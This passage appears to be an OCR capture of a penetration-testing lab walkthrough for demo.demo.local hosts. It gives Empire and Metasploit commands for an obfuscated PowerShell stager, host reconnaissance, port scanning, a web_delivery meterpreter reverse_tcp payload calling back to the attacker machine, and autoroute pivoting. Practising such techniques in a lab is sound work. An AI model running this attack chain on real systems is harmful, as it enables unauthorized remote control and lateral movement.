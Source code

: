 ```bash
# This will Generate an obfuscated powershell code that we should run on our target system that we want sesstion on.
#--------------------------------
# 8) ...
-> Copy the obfuscated powershell code an paste it in the smbexec sesstion terminal tab and hit enter..
-> Switch to the empire tab and you will find that there is new agent checked in ! # **demo.demo.local**
# run this to make sure :
(Empire: usestager/multi/launcher) > agents # this will print agents table ..
# Every 5 Sec the empire check the connection, so every 5 Sec the target will call us :)
#--------------------------------
# Time To interact :) 
(Empire: agents) > interact *Agent name* # This is ware Powershell Comes to ..
(Empire: *Agent name*) > usemodule powershell/situational_awareness/host/computerdetails
(Empire: usemodule/powershell/situational_awareness/host/computerdetails) > execute # This may take some time
# => Now We know our target detailes..
#--------------------------------
# 9) ....
# Getting access to the demo2.demo.local via our empire sesstion ...
(Empire: *Agent name*) > usemodule powershell/situational_awareness/network/portscan # 
(Empire: usemodule/powershell/situational_awareness/network/portscan) >
# => Now You Have to spicify your target IP, in this case will be the demo2.demo.local IP. 
(Empire: usemodule/powershell/situational_awareness/network/portscan) > set HOSTS  192.x.x.x  ## For demo2.demo.local
(Empire: usemodule/powershell/situational_awareness/network/portscan) > execute # This Will Show You Open Ports in the Non-Reachable target  demo2.demo.local 
#--------------------------------
# 10) ....
# Now To MetaSploit :), We Gonna Utilaize a Web Delevery Payload to get meterpreter sesstion on the Reachable target ***First*** and then Non-Reachable target
msfconsole -q # To avoid the banner :)
msf6> search web_delivery
msf6> use exploit/multi/script/web_delivery
msf6 exploit( multi/script/web_delivery) > show options 
msf6 exploit( multi/script/web_delivery) > set target 2 # To use Powershell
msf6 exploit( multi/script/web_delivery) > set SRVHOST *Your attacker Machine IP*
msf6 exploit( multi/script/web_delivery) > set LHOST *Your attacker Machine IP* 
msf6 exploit( multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
msf6 exploit( multi/script/web_delivery) > exploit 
***# This will Generate an obfuscated powershell code and a URL that we should run on our target system***
#--------------------------------
# 11) ....
****# -> Copy the Generated URL and Go Back to Empire Sesstion**
(Empire: *Agent name*) > usemodule powershell/code_execution/invoke_metasploitpayload
(Empire: usemodule/powershell/code_execution/invoke_metasploitpayload) > set URL ****Paste URL that you coped!****
(Empire: usemodule/powershell/code_execution/invoke_metasploitpayload) > execute # if everything goes right you should get a meterpreter sesstion on metasploit ...
******#--------------------------------
# 12) ... 
# You Should Notefid with the new sesstion, When it happend move to it ..
msf6 exploit( multi/script/web_delivery) > sesstions 1
meterpreter> sysinfo # you should get the **demo.demo.local info**
## Put This meterpreter sesstion to background ...
meterpreter> bg 
msf6 exploit( multi/script/web_delivery) > search autoroute
msf6 exploit( multi/script/web_delivery) > use post/multi/manage/autoroute
msf6 post( multi/multi/manage/autoroute) > set SESSTION 1
msf6 post( multi/multi/manage/autoroute) > run
## Now We Can Performe Port Forwarding from the non reachable to ours .
```